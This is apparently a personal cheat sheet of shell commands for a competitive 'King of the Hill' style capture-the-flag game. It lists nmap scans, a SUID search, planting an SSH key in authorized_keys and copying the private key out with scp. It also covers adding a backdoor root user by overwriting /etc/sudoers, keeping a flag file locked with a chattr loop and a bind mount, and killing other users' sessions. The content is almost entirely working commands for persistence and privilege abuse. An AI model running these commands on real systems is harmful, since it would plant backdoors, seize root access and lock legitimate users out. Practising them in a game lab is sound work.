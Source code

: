 NMAP:
```
nmap -p- --min-rate 10000  10.10.206.190
```

```
nmap -p .. -sCV ..
```



To find SUID Binaries :
```
find / -perm /4000 2>/dev/null

```


## SSH KEY GEN

##### 1. Create the .ssh directory (if it doesn't exist)
```
mkdir -p ~/.ssh
```

##### 2. Generate an SSH key pair
```
ssh-keygen -t rsa -b 4096 -f ~/.ssh/id_rsa -N ""
```

##### 3. Add the public key to authorized_keys for passwordless login
```
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys
```

##### 4. Set correct permissions for authorized_keys
```
chmod 600 ~/.ssh/authorized_keys
```



```
scp ~/.ssh/id_rsa pradyun@10.6.13.240:/home/pradyun/Music
```




# CREATE ANOTHER ROOT USER

sudo useradd -p $(openssl passwd -1 password) chepe  
echo 'chepe  ALL=(ALL)  ALL' > /etc/sudoers





# PROTECT KING FILE

```
while [ 1 ]; do chattr -ia /root/king.txt 2>/dev/null; echo -n Pradyun >| /root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done &
```

Mount King 

```
sudo lessecho Pradyun > /root/king.txt; sudo dd if=/dev/zero of=/dev/shm/root_f bs=1000 count=100; sudo mkfs.ext3 /dev/shm/root_f; sudo mkdir /dev/shm/sqashfs; sudo mount -o loop /dev/shm/root_f /dev/shm/sqashfs/; sudo chmod -R 777 /dev/shm/sqashfs/; sudo lessecho Pradyun > /dev/shm/sqashfs/king.txt; sudo mount -o ro,remount /dev/shm/sqashfs; sudo mount -o bind /dev/shm/sqashfs/king.txt /root/king.txt; sudo rm -rf /dev/shm/root_f

```



# REMOVE OTHER USERS IN TTY

```
w
```

```
ps -t pts/1
```

```
sudo kill -9 <pid>
```





# REVOKE CHATTR

```
lsattr /root/king.txt
```


```
sudo chattr -i /root/king.txt   # Remove immutable flag
```

```
sudo chattr -a /root/king.txt   # Remove append-only flag
```